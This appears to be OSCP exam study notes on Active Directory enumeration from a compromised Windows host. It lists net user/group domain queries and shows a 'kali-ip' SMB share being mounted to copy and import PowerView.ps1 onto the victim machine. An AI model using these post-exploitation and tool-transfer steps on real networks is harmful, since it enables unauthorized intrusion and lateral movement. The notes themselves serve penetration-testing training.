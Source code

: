 # OSCP-AD-Scope Methodology

## Enumeration

* Just landed on a box?&#x20;

```
whoami /priv
```

## Traditional Approach

Enumerate all local accounts:

```
net user
```

Enumerate all users in the entire domain:

```
net user /domain

net user jeff_admin /domain
```

Enumerate all groups in the domain:

```
net group /domain
```

## Modern Approach

Transfer Tools to compromised host

Kali:

```
impacket-smbserver smb .
```

Windows:

```
net use \\kali-ip\smb

copy \\kali-ip\smb\PowerView.ps1 .

dir

PowerView.ps1
```

Import module:

```
Import-Module .\PowerView.ps1
```
